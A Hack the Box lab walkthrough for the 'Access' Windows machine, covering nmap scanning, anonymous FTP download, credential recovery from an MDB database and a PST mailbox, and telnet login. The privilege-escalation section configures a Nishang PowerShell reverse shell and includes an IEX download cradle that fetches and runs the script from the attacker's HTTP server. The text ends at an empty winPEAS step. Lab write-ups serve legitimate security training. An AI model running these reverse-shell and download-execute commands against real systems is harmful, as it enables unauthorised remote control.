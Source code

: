 # Hack the Box - Access

```CSS
Machine IP: 10.10.10.98 - Windows
```

- [NMAP: All TCP ports](#nmap-open-ports)
- [NMAP: Open ports Service Version](#nmap-service-version)
- [FTP Anonymous Login](#ftp-login)
  - [Download Files](#ftp-downloads)
- [Telnet Anonymous Login](#telnet-anonymous-login)
- [Website](#webserver)

## NMAP Open Ports
```CSS
▶ nmap -Pn -sS -p- 10.10.10.98 -T4 --min-rate 5000 -oN nmap.surface

Nmap scan report for 10.10.10.98
Host is up (0.19s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.68 seconds
```

## NMAP Service Version
```CSS
▶ nmap -sC -sV -p 21,23,80 10.10.10.98 -T4 --min-rate 5000 -oN nmap.deep

Nmap scan report for 10.10.10.98
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.59 seconds
```

---

## Telnet Anonymous Login
  - Telent log in failed.
```CSS
▶ telnet 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231275176-f81e52d6-3975-497a-b375-17f4cc9eb3e2.png)

---

## Website
![image](https://user-images.githubusercontent.com/83878909/231276321-d9810c39-9ac9-4c59-b50d-0f7a296ede38.png)

---

## FTP Login
  - Log in to ftp, anonymous login allowed. 
```CSS
▶ ftp 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231272883-d87603cc-e9b5-461c-a670-5c36226f6a57.png)

### FTP Downloads
  - Download all directories and files found in FTP.
```CSS
▶ wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231274006-305f40e6-8efc-4af0-8f4c-6e85319bab51.png)

### ZIP File
  - Access File
```CSS
▶ 7z x Access\ Control.zip
```
![image](https://user-images.githubusercontent.com/83878909/233909981-8b6ad107-b1cf-4ad8-87f8-fc00f663bc5b.png)

  - Technical Information
```CSS
▶ 7z l -slt Access\ Control.zip
```
![image](https://user-images.githubusercontent.com/83878909/233909126-48769505-adde-4982-beaf-2fe1635970f4.png)


### MBD File
  - Look into the file
```CSS
▶ strings backup.mdb
```
![image](https://user-images.githubusercontent.com/83878909/233927444-536ae3fa-9377-4efd-b6ac-783b4b7df837.png)

  - Extract Information
```CSS
▶ mdb-tables backup.mdb | grep --color=auto user
```
![image](https://user-images.githubusercontent.com/83878909/233927978-8404a46f-e088-4f4c-8d8c-5e6638269cbc.png)
```CSS
▶ mdb-export backup.mdb auth_user
```
![image](https://user-images.githubusercontent.com/83878909/233928307-60dc1282-0923-472e-a148-cdb5bedba4ea.png)

### Extract ZIP File Contents
```CSS
▶ 7z x Access\ Control.zip
```
```CSS
password: access4u@security
```
![image](https://user-images.githubusercontent.com/83878909/233932586-4b1e138c-13d7-4197-81ac-46189c7cd293.png)

---

### PST File
  - Check the file.
```CSS
▶ file Access\ Control.pst
```
File Type: Microsoft Outlook Personal Storage

  - Convert `.pst` file to `.mbox` file.
```CSS
▶ readpst Access\ Control.pst
```
![image](https://user-images.githubusercontent.com/83878909/233936965-6d6ef291-91dd-4cd2-b153-8d1101af60b6.png)

  - Read emails
```CSS
▶ less Access\ Control.mbox
```
![image](https://user-images.githubusercontent.com/83878909/233937943-92fb0eed-9159-4d42-9f28-8807dc589fa5.png)
```CSS
Username: security
Password: 4Cc3ssC0ntr0ller
```

---

## Telnet Login
  - Login using found credentials.
```CSS 
▶ telnet 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/233939322-189c0e45-6083-4a2f-bed0-05bd8100d025.png)

---

## Privilege Escalation
  - Modify and upload `nishang` shell.
  - `/opt/nishang/Shells/Invoke-PowerShellTcp.ps1`.

### Nishang
#### Modify
```CSS
▶ Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.21 -Port 4444
```
  - Add the above line to the bottom of the nishang script.

#### Upload & Execute
```CSS
▶ python -m http.server
```
```CSS
▶ nc -nlvvp 4444
```
```CSS
C:\Users\security\Desktop>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21:8000/Invoke-PowerShellTcp.ps1')"
```
![image](https://user-images.githubusercontent.com/83878909/234075465-eab8f656-1ad4-4cab-8efd-bcf1dd179517.png)

#### winPEAS
  - Upload `winPEASx64.exe`.
```CSS
▶ 
```
